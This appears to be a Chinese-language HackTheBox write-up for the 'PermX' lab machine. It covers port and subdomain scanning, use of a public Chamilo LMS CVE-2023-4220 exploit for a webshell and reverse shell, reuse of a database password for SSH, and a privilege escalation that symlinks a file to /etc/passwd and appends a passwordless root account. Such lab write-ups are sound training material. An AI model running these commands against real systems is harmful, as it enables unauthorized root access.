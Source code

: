```yaml
---
title: "HTB-PermX"
date: 2024-09-03
categories: 
  - "渗透测试"
tags: 
  - "hackthebox"
  - "linux"
---
```


## Box Info

| OS | Linux |
| --- | --- |
| Difficulty | Easy |

## Basic Scan

### Nmap

```
namp 10.10.11.23 -A -O
```

![](./images/image.png)

**Opened Ports：22、80**

**Server：Apache 2.4.52 (Ubuntu)**

### Subdomain Fuzzing

Github：[TheKingOfDuck/fuzzDicts: Web Pentesting (github.com)](https://github.com/TheKingOfDuck/fuzzDicts)

```
ffuf -w main.txt -u http://permx.htb/ -H "Host:FUZZ.permx.htb" -mc 200
```

![](./images/image-3.png)

找到两个子域名：**www**、**lms**

更新**/etc/hosts**

![](./images/image-4.png)

### Dirsearch

```
dirsearch -u http://permx.htb/
```

![](./images/image-1.png)

```
dirsearch  -u lms.permx.htb
```

![](./images/image-5.png)

在**LICENSE**里得到**Chamilo LMS**的版本信息

![](./images/image-6.png)

### Gobuster

```
gobuster dir -u http://permx.htb/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50
```

![](./images/image-2.png)

## CVE-2023-4220

Github：[Rai2en/CVE-2023-4220-Chamilo-LMS: CVE-2023-4220 (github.com)](https://github.com/Rai2en/CVE-2023-4220-Chamilo-LMS)

![](./images/image-7.png)

![](./images/image-8.png)

成功上传webshell

![](./images/image-9.png)

![](./images/image-10.png)

以及反弹shell

![](./images/image-11.png)

![](./images/image-12.png)

发现mysql用户名以及密码

![](./images/image-13.png)

```
mysql -u chamilo -p03F6lY3uXAP2bkW8

select username,password from user;
```

![](./images/image-14.png)

尝试进行爆破，失败。

![](./images/image-15.png)

存在一个mtz的用户，尝试用数据库的密码进行ssh登录，成功。

![](./images/image-16.png)

![](./images/image-17.png)

## Privilege Escalation

![](./images/image-20.png)

![](./images/image-21.png)

这个脚本用于确保安全地为 `/home/mtz/` 目录下的某个文件设置**特定用户的权限**，防止未经授权的目录访问或操作。

```
touch test
ln -sf /etc/passwd /home/mtz/test  # 将test链接到/etc/passwd
sudo /opt/acl.sh mtz rw /home/mtz/test  #给test文件设置为mtz，并且可读可写
echo "hyh::0:0:hyh:/root:/bin/bash" >> ./test #将用户信息写入test
su hyh 
```

![](./images/image-22.png)

## Summary

端口、子域名扫描获取web服务相关信息。从CVE入手获取到普通shell权限。

在/opt/acl.sh中可以构造软链接，将写入的用户信息链接到/etc/passwd即可获取root权限。
